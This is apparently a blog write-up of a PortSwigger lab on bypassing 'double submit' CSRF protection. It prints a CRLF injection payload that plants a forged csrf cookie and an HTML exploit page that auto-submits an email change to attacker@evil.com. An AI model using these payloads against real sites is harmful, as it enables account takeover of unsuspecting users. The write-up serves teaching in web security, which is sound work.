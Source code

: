 # CSRF where token is duplicated in cookie | Dec 15, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie), you'll learn: CSRF where token is duplicated in cookie! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215043750.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215043838.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215043844.png)

In previous labs, we found that the email change functionality is **vulnerable to CSRF**, and also found **CRLF injection** vulnerability in home page's search post.

**Let's try to update our email, and intercept the request via Burp Suite:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215044220.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215044302.png)

**As you can see, our `csrf` cookie value is match to POST parameter `csrf` value!** This is so call the "double submit" defense against CSRF.

**Hmm... What if I change one of those `csrf` value?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215044519.png)

As expected, it outputs `Invalid CSRF token`.

**To bypass this protection, we can find something in website that changes or set a new cookie.**

**In home page, there is a `Search` button that allows users to search different blogs:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215044653.png)

**Let's intercept a request via Burp Suite's Repeater!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215044728.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215044754.png)

As you can see, it's sending a GET request to `/` with parameter `search`.

**Also, after sending that request, a new cookie value will be set: `LastSearchTerm=<search_parameter_value>`!**

**In the previous lab, we found that it's vulnerable to CRLF injection, which enables attacker to add a new cookie!**

**Payload:**
```
/?search=anything%0d%0aSet-Cookie:csrfKey=CRLF%3b%20SameSite=None
```

> Note: The `%3b%20` means `; `, and we need `SameSite` is set to `None`.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215045030.png)

**That being said, we can forge a `csrf` cookie to the victim browser!**

**To do so, we can use the `exploit server`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215045143.png)

**Then, we can craft a HTTP form that performs CSRF attack, and send that exploit to the victim:**
```html
<html>
	<head>
		<title>CSRF-6</title>
	</head>
	<body>
		<form action="https://0ab3007f03fa8b1bc00a77b2008100dd.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="attacker@evil.com">
		    <input type="hidden" name="csrf" value="5GaeDcsD8nJ2iTzyOGIcnydqApFgwUkK">
		</form>
		<img src="https://0ab3007f03fa8b1bc00a77b2008100dd.web-security-academy.net/?search=anything%0d%0aSet-Cookie:csrf=5GaeDcsD8nJ2iTzyOGIcnydqApFgwUkK%3b%20SameSite=None" onerror="document.forms[0].submit()">
	</body>
</html>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215045458.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-6/images/Pasted%20image%2020221215045507.png)

We successfully changed a victim's email address!

# What we've learned:

1. CSRF where token is duplicated in cookie